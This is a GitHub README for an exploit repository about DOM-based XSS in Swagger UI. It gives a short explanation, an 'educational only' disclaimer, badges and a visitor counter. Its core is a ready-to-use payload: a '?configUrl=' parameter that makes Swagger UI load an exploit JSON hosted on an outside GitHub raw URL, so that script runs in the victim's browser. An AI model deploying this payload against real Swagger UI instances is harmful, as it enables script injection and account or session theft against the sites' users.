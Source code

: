 # DOM-based XSS in Swagger UI
<a href="https://www.json.org/"><img src="https://img.shields.io/badge/JSON-000?logo=json&logoColor=fff"></a>
<a href="https://www.javascript.com/"><img src="https://img.shields.io/badge/JavaScript-F7DF1E?logo=javascript&logoColor=000)"></a>
<a href="https://yaml.org/"><img src="https://img.shields.io/badge/YAML-CB171E?logo=yaml&logoColor=fff"></a>

Swagger UI is a web-based tool that renders API documentation from an OpenAPI specification in an interactive way, allowing developers to view endpoints, parameters, and even test requests directly in the browser. However, since it runs on the client side, there’s a potential risk of **DOM-Based XSS** if user input or API responses are reflected on the page without proper sanitization, which could allow malicious scripts to execute. So while Swagger UI is great for testing and exploring APIs, it’s important to secure it against injection attacks.

> [!WARNING]
> This repository is for educational purposes only, do not use this source for illegal activities and the like, all risks are borne by each individual.

<p align="center"> 
  <b> Visitor Count </b><br><br>
  <img src="https://api.visitorbadge.io/api/VisitorHit?user=randixploit&repo=swagger-xss&countColor=%237B1E7A" />
</p>

<b>Payload</b>
```
?configUrl=https://raw.githubusercontent.com/randixploit/swagger-xss/refs/heads/main/exploit.json
```

IB: [@coffinxp](https://github.com/coffinxp)
